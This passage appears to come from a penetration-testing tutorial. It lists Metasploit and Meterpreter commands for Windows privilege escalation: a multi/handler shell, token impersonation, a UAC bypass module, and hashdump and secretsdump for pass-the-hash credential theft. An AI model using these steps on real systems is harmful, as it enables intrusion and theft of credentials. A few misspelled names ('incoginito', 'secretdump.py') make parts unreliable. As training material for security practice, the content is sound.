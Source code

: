 After that start multi/handler on attacker system and exploit.

Boom!!! 

You will get a shell as an administrator.


Using meterpreter there is also a feature called 'Incoginito' we can impersonate other valid user tokens on that machine and become that user.

In meterpreter shell use command below
```
use incoginito
```


**UAC Bypass Using Meterpreter**

User Account Control or UAC for short is a security feature of Windows which helps prevent unauthorized changes to the operating system.

Let's check UAC enabled or not on the target system

Use metasploit module
```
post/windows/gather/win_privs 
```

After confirming let's bypass it.

```
search bypassuac
```

There are many exploits choose as per your requirement
```
exploit/windows/local/bypassuac_comhijack
```

Set options and exploit and you will get a  shell as admin


**Pass The Hash**

Pass The Hash is the technique by which you can exploit a sytem directly by its LM Hash.

If you're in meterpreter shell you can run commands below

```
run hashdump
```
or smarthashdump like

```
post/windows/gather/smart_hashdump
```
Or you can search another technique in metasploit

```
search hashdump
```
Choose what you need 

And if you are in regular netcat or cryptcat shell upload secretdump.py, Impacket's module and execute it on the target system, it will get you hash.
